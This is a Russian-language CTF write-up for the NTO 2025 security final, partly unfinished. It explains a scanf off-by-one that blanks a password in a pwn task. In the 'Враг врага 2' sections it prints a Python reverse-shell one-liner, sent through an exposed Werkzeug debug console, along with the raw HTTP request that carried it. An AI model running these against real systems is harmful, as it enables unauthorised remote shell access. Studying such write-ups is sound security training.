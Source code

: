 # Райтап на финал иб нто 2025 от команды While_hot_false
## Состав
* Walter White
* eogod
* Kolya080808
* kvasilek
# Задачи с коротким ответом

## Web
## Pwn 1
Из функции write_file() : 
```
  printf("Enter file content: ");
  __isoc99_scanf("%256s", file_buffer);
  flush();
  file = open(path, 65, 0, v0, v1, v2);
```
При этом file buffer сам размером 256 байт, а после него лежит secret password:
```
.bss:0000000000004120 file_buffer     db 100h dup(?)          ; DATA XREF: init_storage+70↑o
.bss:0000000000004120                                         ; init_storage+A8↑o ...
.bss:0000000000004220                 public secret_password
.bss:0000000000004220 ; char secret_password[32]
.bss:0000000000004220 secret_password db 20h dup(?)   
```
scanf("%256s", file_buffer) записывает максимум 256 байт + 1 ноль байт, который попадёт уже в secret_pasword. В итоге пароль начинается с 0x00, то есть по факту пустая строка. \
Решение: 
* Записываем в файл 256 букв 
* Запрашиваем чтение 00000000 и при запросе пароля просто нажимаем enter 
* Получаем флаг
```
nc 10.10.11.101 9001
                    
            +++++++                )                           
          +++      ++           ( /(   (     )           (     
   ++++++++         ++++        )\()) ))   (     `  )   )\ )  
  ++                   +++     (_))/ /((_)  )\  ' /(/(  (()/(  
 ++          ++          ++    | |_ (_))  _((_)) ((_)_\  )(_)) 
 ++        ++++++.       ++    |  _|/ -_)| '  \()| '_ \)| || | 
  +++        ++        +++      \__|\___||_|_|_| | .__/  \_, | 
    :+++++++ ++  +++++++                         |_|     |__/  
             ++                                  
             ++                                  
    finally, service for reading and             
                writng your OWN temporary files! 


Commands:
        1. Read file
        2. Write file
>> 2
Enter file content: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Your file ID: 0a09d600

Commands:
        1. Read file
        2. Write file
>> 1
Enter file ID: 00000000
Opa, give me password: 
File contains: nto{sup3r_s3cr3t_c0nf1d3ntial_fl4g}
Commands:
        1. Read file
        2. Write file
>> 

```
### Касса
перенос строк через \ кстати делается \
перенос строк через \ кстати делается
## Infra

### Confluence
всем респект
### NAS
да таск халява
### NAS2
коля респект
### Сервер печати

# Задачи с защитой
## Горшочек
текст решения \
перенос строк через \ кстати делается

## Враг врага 2 - 1
через /console, который доступен, потому что на питоновском веб сервере включен debug, был прокинут реверс шелл на питоне:
```
>>> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((&#34;10.10.10.12&#34;,9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(&#34;bash&#34;)
```
## Враг врага 2 - 2
Ответ: 10.10.10.12, 81.177.221.242
* 10.10.10.12 - посылал запрос на /console с реверс шеллом на 172.18.0.3
```
GET /console?&__debugger__=yes&cmd=import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.10.12%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF HTTP/1.1
Host: 10.10.10.3:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.3:5000/console
Connection: keep-alive
Cookie: hide-dotfile=no; __wzd44828fdba9134e8d1a6f=1737574404|9130fd746c6b
Priority: u=0
```
* 81.177.221.242 - c этого айпишника был скачан бинарник, лежащий на /app

## Markdown 
[Как пользоваться](https://github.com/adam-p/markdown-here/wiki/markdown-cheatsheet#lists)
